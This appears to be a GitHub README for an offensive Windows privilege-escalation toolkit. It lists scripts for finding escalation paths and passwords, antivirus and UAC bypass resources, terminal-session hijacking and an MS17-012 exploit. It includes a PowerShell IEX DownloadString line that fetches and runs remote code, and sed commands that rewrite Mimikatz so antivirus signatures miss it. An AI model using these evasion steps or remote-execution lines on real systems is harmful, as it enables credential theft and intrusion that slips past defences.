 # WinEscalation-

Scan.ps1:
Powershell script used to determine what methods can be used to escalate privileges and find passwords (admin and non-admin privs).


AVbypass.txt:
List of URLs discussing different methods of bypassing AV.

TScommands.txt:
Commands on how to hijack a TS session on a box (must have admin rights).

UACbypass.txt:
URLs discussing different methods of bypassing UAC.


MS17-012/CVE-2017-0100:
Start-ProcessInSession.ps1 & MS17-012.cs - non-priveleged session hijack



Author: Scott Sutherland 2013, NetSPI
Version: Get-SPN version 1.1
Requirements: Powershell v.3
Comments: The technique used to query LDAP was based on the "Get-AuditDSDisabledUserAcount" 
function found in Carols Perez's PoshSec-Mod project.#
Modded to bypass AV sig detection.
https://github.com/nullbind/Powershellery/blob/master/Stable-ish/Get-SPN/Get-SPN.psm1

Get-SPM.psm1: 

IEX (New-Object System.Net.WebClient).DownloadString("https://raw.githubusercontent.com/pand0rausa/WinEscalation-/master/Get-SPM.psm1")

Mimikitten mod to avoid AV:
mimikitt.ps1


Mimikatz mod to avoid AV:
mimi.ps1

sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
sed -i -e 's/ArgumentPtr/NotTodayPal/g' Invoke-Mimikatz.ps1
sed -i -e 's/CallDllMainSC1/ThisIsNotTheStringYouAreLookingFor/g' Invoke-Mimikatz.ps1
sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions\$Win32Functions #\-/g" Invoke-Mimikatz.ps1


Powerview mod to avoid AV:
powervw.ps1
